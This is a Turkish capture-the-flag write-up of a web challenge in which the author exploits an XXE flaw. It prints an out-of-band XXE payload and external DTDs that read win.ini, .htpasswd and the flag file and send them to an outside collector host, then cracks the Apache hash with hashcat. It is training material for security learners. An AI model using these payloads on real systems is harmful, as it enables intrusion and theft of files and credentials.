### At (Web 300)

![soru](soru.png)

Soruda bize sadece bir IP adresi veriliyor. Bu IP adresini ziyaret ettiğimde bir form ile karşılaştım.


![adim1](adim_1.png)


Formu doldurup gönderdim. Sonra bu isteği Burp Suite'in Repeater aracı ile açıp isteği tekrarladım ve bunu yaptığımda **Sorry, this email is already registered!** mesajı ile karşılaştıım. Kısaca farklı emailler ile isteği tekrarladım ancak mesaj hiç değişmedi. Sonra kısaca her parametreye SQL Injection denemesi yaptım ancak bu da hiçbir sonuç vermedi. İsteğin XML olarak gitmesi akıllara direk XXE Injection(XML External Entity Injection) açığını getirmeli. XML parserlarının bir özelliğinden dolayı oluşan bu güvenlik açığı birçok büyük firmada daha önce bulunmuş ve rapor edenlere binlerce dolar kazandırmıştır. Örnek olarak Google ve Facebookta bulunmuş XXE açıklarının İngilizce write-up'larını okuyabilirsiniz.

Google XXE (Ödül $10,000): https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/  
Facebook XXE (Ödül $30,000): https://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution


![adim2](adim_2.png)   


Ben XXE açığını kontrol etmek için şu listedeki payloadları kullanıyorum: https://gist.github.com/staaldraad/01415b990939494879b4 

Bu XXE payload listesinden biraz deneme yanılma yoluyla çalışan bir payload buldum:


![adim7](adim_7.png)   


XXE başlı başına bir konu olduğu için bu yazıda XXE'yi açıklamayacağım. Ancak kullandığım Out-of-Band XXE payloadunun ne yaptığını kısaca anlatayım:

**XXE Payload (HTTP isteğiyle birlikte gönderilecek)**
```
1: <?xml version="1.0" encoding="UTF-8"?>
2: <!DOCTYPE r [
3: <!ELEMENT r ANY >
4: <!ENTITY % sp SYSTEM "http://xx.xx.xx.xx:8000/ex.dtd">
5: %sp;
6: %param1;
7: %exfil;
8: ]>
```

1) Dördüncü satırda `sp` adında bir XML Entity tanımı yapılıyor. Bu Entity başka bir IP adresindeki DTD dosyasına link ediyor. DTD dosyası dediğimiz bildiğimiz XML dosyası. 

2) Beşinci satırda bu tanımı yapılan Entity çağırılıyor. Tıpkı fonksiyon gibi düşünün. Tanımını yaptığınız fonksiyonu çağırmazsanız o fonksiyon hiçbir işe yaramaz.

3) XML parser verilen IP adresindeki DTD dosyasını yükleyip parse ediyor.

4) Altıncı ve 7. satırlarda, yüklenen DTD içinde tanımlanmış olan `param1` ve `exfil` Entityleri çağırılıyorlar. Fonksiyon benzetmesinden devam edersek, DTD dosyasında tanımlı fonksiyonlar çağırılıyor diyebiliriz. Bu sayede XML parser DTD'yi import ettiğinde `param1` ve `exfil` Entitylerine erişebilecek.



**http://xx.xx.xx.xx:8000/ex.dtd Dosyası (Sistemde zafiyet bulunan XML parser bu dosyayı çağırıyor)**:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">   
```

1) Birinci satırda `data` Entity'si `c:/windows/win.ini` dosyasına link ediyor. Yani `data` fonksiyonu çağırıldığında `c:/windows/win.ini` dosyasının base64 encode edilmiş içeriğini dönecek gibi düşünebilirsiniz.

2) İkinci satırda `param1` Entity'si `exfil` adında başka bir Entity tanımlıyor ve bu `exfil` Entity'si `http://x.x.x.x:443/` adresine `data` Entity'sinin içeriğini(Base64 encode edilmiş `c:/windows/win.ini` dosyası) gönderiyor.
![teambios](team-bios.jpg)  


Bu aşamadan sonra `c:/windows/win.ini` dosyasını okumak için aşağıdaki şekilde istek gönderdim:

![adim9](adim_9.png) 



**ex.dtd'yi barındıran sunucum:**

![adim8](adim_8.png) 


**XXE zafiyeti bulunan sunucu, Burp'ün sunucusuna `c:/windows/win.ini` dosyasını Base64 encode edip gönderiyor:**

![adim9](adim_10.png) 



Bu aşamadan sonra sistemde bütün dosyaları okuyabiliyordum. Ancak bu aşamada takıldım çünkü flag'in nerde saklandığını bulamadım. Ta ki sitenin içinde biraz gezip `js/` klasörünün altındaki `files.txt` dosyasını bulana kadar.  
![adim6](adim_6.png)


Burada bize flag'in `C:\Windows` dizininde olduğunu ve flagin isminin `flag_\d{4}[a-zA-Z]{4}\.txt` Regular Expression'ınına uyucağını söylüyordu. Bütün olasılıkları Brute Force mantıklı değildi. Biraz daha araştırma yapınca sunucunun `/flag` altdizinin HTTP Authentication kullandığını gördüm.

![adim4](adim_4.png)


`/flag` dizinine girebilmek için HTTP Authentication kullanıcı adı ve parolasına ihtiyaç vardı. HTTP Authentication parolaları Apache sunucularda `.htpasswd` dosyasında saklanır. XXE zafiyetini kullanarak bu dosyayı aynı yukarıda `win.ini` dosyasını okuduğumuz gibi okuyabiliriz.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim .htaccess'i okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/xampp/htdocs/.htpasswd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

`.htaccess` dosyasının içeriği:
![adim11](adim_11.png)

HTTP Authentication için kullanıcı adı: `stalker` ve hashlenmiş parola: `$apr1$izrgXKZ1$0fVgd1MIioC14JG6VYwTw/`. Bu parolanın hangi hash fonksiyonu ile hashlendiğini araştırdım ve Apache MD5 diye bir format buldum. Bu formatı cracklemek için Hashcat'i hash türünü 1600 olarak seçerek kullandım. Tabii  dictionary olarak CTFlerin olmazsa olmazı rockyou.txt'yi kullandım.

```
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt --force

```  

**Sonuç:**

![adim12](adim_12.png)

Kullanıcı adını `stalker` ve parolayı `gangstagangsta` olarak girdiğimizde yine bir sürprizle karşılaştım.

![adim13](adim_13.png)

Bize flag yerine ismi `flag_3289erpd.txt.jpg` olan bir resim dönülüyor. Biraz kafamı kaşıdıktan sonra `C:/Windows/` dizini altındaki `flag_\d{4}[a-zA-Z]{4}\.txt` formatında bir flag olduğu aklıma geldi. Artık flag'in ismi de elimizde olduğuna göre hemen XXE zafiyetini kullanarak okuyabiliriz flag dosyasını.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim C:/windows/flag_3289erpd.txt'yi okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/flag_3289erpd.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

![flag](flag.png)



Bence soru çok eğlenceliydi. Hazırlayan kişinin ellerine sağlık.

